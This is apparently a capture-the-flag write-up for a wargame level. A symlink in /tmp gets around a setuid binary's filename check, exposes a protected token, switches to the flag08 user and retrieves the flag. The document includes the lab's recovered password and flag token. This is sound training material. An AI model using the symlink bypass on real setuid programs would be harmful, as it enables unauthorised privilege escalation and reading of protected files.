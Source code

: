 
-> ls -la

two lines show interesting files :

-rwsr-s---+ flag08 level08 ... level08

-rw-------  flag08 flag08  ... token

-> ./level08

./level08 [file to read]

-> strings level08

Two interesting lines here :

token
You may not access '%s'

This makes suppose that token can containt our answer and
that's the reason why we can't access token.

There is a way to try to use token without accessing it directly
and this is possible by creating a symbolic link. 

So let's try

-> ln -s ~/token /tmp/tempLevel08

-> ./level08 /tmp/tempLevel08

quif5eloekouj29ke0vouxean

-> su flag08

Password:
Don't forget to launch getflag !

-> getflag

Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

-> su level09 ..